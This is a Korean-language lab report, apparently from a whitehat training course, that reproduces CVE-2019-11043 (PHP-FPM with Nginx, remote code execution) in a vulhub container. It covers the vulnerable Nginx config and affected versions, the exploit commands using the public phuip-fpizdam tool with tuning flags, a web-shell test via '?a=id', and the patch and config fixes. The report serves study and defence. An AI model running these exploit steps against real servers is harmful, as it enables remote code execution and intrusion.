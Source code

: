 # CVE-2019-11043 PHP-FPM 원격 코드 실행 PoC 보고서
> 화이트햇 스쿨 3기 26반- [윤성준 (@ysj-main)](https://github.com/ysj-main)

## 1. 취약점 정보

### 1.1 개요  
CVE-2019-11043는 Nginx와 PHP-FPM을 조합해 사용할 때, Nginx의 FastCGI 처리 과정에서 `fastcgi_split_path_info` 설정과 PHP-FPM 내부 버퍼 오버플로우가 결합되어 발생하는 원격 코드 실행(RCE) 취약점입니다.

### 1.2 발생 원인  
- **Nginx 설정**  
  ```nginx
  location ~ [^/]\.php(/|$) {
      fastcgi_split_path_info ^(.+?\.php)(/.*)$;
      include fastcgi_params;
      fastcgi_param SCRIPT_FILENAME /var/www/html$fastcgi_script_name;
      fastcgi_pass php:9000;
      …
  }
  ```
- **PHP-FPM 버전**  
  PHP-FPM 7.1.x 미만, 7.2.x 미만, 7.3.x 미만 버전에서 PATH_INFO 처리를 위해 할당된 내부 버퍼를 넘어선 데이터를 복사하면서 FCGI 프로토콜 데이터 영역을 덮어쓰게 됩니다.

### 1.3 영향 받는 버전  
- PHP 7.1.x 7.1.33 미만  
- PHP 7.2.x 7.2.24 미만  
- PHP 7.3.x 7.3.11 미만  

## 2. 참고 자료

- NVD CVE-2019-11043: https://nvd.nist.gov/vuln/detail/CVE-2019-11043  
- vulhub PoC 디렉토리: https://github.com/vulhub/vulhub/tree/master/php/CVE-2019-11043  
- Exploit Tool (phuip-fpizdam): https://github.com/neex/phuip-fpizdam  

## 3. PoC 실행 흐름

### 3.1 환경 준비 (Ubuntu 24.04 기준)
- go 언어 설치
```bash
sudo apt update
sudo apt install golang-go -y
```

### 3.2 취약 컨테이너 실행  
```bash
cd ~/kr-vulhub/php/CVE-2019-11043
sudo docker compose up -d
```
![](./img/1.png)

- `php:7.2.10-fpm` 및 `nginx:1` 컨테이너가 실행됩니다.
![](./img/2.png)

### 3.3 기본 동작 확인
터미널로 동작 확인
```bash
curl http://localhost:8080/index.php
# → hello world
```

브라우저로 동작 확인
![](./img/3.png)

### 3.4 Exploit 도구 클론 및 실행  
```bash
#  https://github.com/neex/phuip-fpizdam를 사용하여 익스플로잇이 가능합니다.
cd ~
git clone https://github.com/neex/phuip-fpizdam.git
cd phuip-fpizdam

# Exploit
go run . "http://localhost:8080/index.php"
![](./img/4.png)
```
- “Success! Was able to execute a command…” 메시지가 뜨면 RCE 취약점 재현 성공입니다.  
- 탐지 실패 시:
  ```bash
  go run . "http://localhost:8080/index.php" --skip-detect --qsl 1790 --pisos 152
  ```

### 3.5 WebShell 테스트  
터미널로 WebShell 테스트
```bash
curl "http://localhost:8080/index.php?a=id"
# → uid=www-data(…) gid=… groups=…
```
브라우저로 WebShell 테스트
```
http://localhost:8080/index.php?a=id
```
![](./img/5.png)

## 4. 결론 및 주의사항

- **부분적 취약**: PHP-FPM 자식 프로세스 중 일부만 영향을 받으므로, 동일 명령을 여러 번 시도해야 할 수 있습니다.  
- **환경 의존성**: Nginx의 `location` 블록 설정과 PHP-FPM 버전이 정확히 일치해야 취약이 발현됩니다.  
- **대응 방안**:  
  1. PHP를 7.1.33, 7.2.24, 7.3.11 이상 버전으로 업그레이드  
  2. Nginx 설정에서 `fastcgi_split_path_info` 대신 안전한 파일 처리 방식을 적용하거나 해당 블록을 제거
